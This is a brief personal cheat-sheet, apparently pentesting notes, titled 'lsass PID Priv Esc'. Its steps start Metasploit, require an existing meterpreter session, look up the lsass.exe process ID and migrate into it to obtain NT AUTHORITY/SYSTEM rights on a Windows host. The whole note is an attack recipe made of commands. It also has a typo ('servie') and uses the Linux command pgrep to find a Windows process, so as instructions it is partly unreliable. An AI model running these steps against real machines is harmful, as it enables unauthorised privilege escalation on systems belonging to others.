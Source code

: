 # lsass PID Priv Esc

---

lsass.exe is a critical Windows Process with high privileges, which can be exploited.

servie postgresql start && msfconsole -q

<chose exploit> --> needs meterpreter session

pgrep lsass

migrate 780

--> get NT AUTHORITY/SYSTEM Rights.



